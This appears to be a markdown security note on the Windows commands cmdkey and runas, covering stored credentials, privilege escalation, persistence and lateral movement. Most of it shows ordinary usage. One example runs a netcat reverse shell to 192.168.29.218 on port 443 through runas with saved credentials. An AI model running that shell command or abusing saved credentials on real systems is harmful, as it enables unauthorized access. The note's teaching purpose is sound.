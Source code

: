 In Windows **cmdkey** and **runas** are powerful commands used for managing credentials and executing programs under different user accounts. While they can be useful to legitimate administrative tasks, they can also be exploited for **privilege escalation** and **persistence** in an attack scenerio.

---

### cmdkey 

thr ``cmdkey`` command is used to create, list or delete stored usernames and passwords. this can be useful for automating authentication to networked resources or system

#### Commands Overview:

1. **Adding Credentials**
    
    *   Adds credentials for remote system (``win8``) with the username ``DevNull`` and password ``123``

    ```cmd
    cmdkey /add:win8 /user:Devnull /pass:123
    ```

    *   Add credentials for the ``Administrator`` user on the system ``admin1``

    ```cmd
    cmdkey /add:admin1 /user:Administrator /pass:@assword123 
    ```

2.  **Listing Stored Credentials**

    *   List all stored credentials on the system

    ```cmd
    cmdkey /list
    ```

3.  **Deleting Credentials**


    *   Deletes the stored credentials for the specified target

    ```cmd
    cmdkey /delete:<target>
    ```

#### Security Consideration:

*   **Credential Lekage** Stored credentials may be misused if an attacker gains to the system. It's important to regularly clean stored credentials

*   **Network Persistence** Attackers can use ``cmdkey`` to store credentials for network resources, allowing them to access those system without needing to re-enter credentials

---

### runas

the ``runas`` command allows a user to execute a program under a different user account, typically used for running programs with different (non-elevated) privileges.

####    Command Overview

1.  **Running a command with another user's credentials

    *   Runs a comand to create a directory (``demo``) int he ``DevNull`` user's folder using credential of ``DevNull``

    ```cmd
    runas /user:WIN8\DevNull /savecred "C:\Windows\System32\cmd.exe /c mkdir C:\users\devnull\demo"
    ```

    *   **Executing command via ``runas`` :(Ping)**

     ```cmd
    runas /user:WIN8\DevNull /savecred "C:\Windows\System32\cmd.exe /c ping 8.8.8.8"
    ```


    * **Executing reverse shel via ``runas`` (NetCat)**

     ```cmd
    runas /user:WIN8\DevNull /savecred "C:\Windows\System32\cmd.exe /c nc63.exe -e cmd.exe 192.168.29.218 443"
    ```


#### Security Considerations

* **Privilege Escalation** if the user has access to ``runas`` with stored credentials (``/savecred``), they can escalate their privileges to an administrator or another higher-privileged account.

*   **Stored Credentials** the ``/savecred`` option stores credentials, which may lead to **credential theft** or unauthorized access

*   **Lateral Movement** by using ``runas`` with saved credentials attackers can potentially gain access to netoworked systems
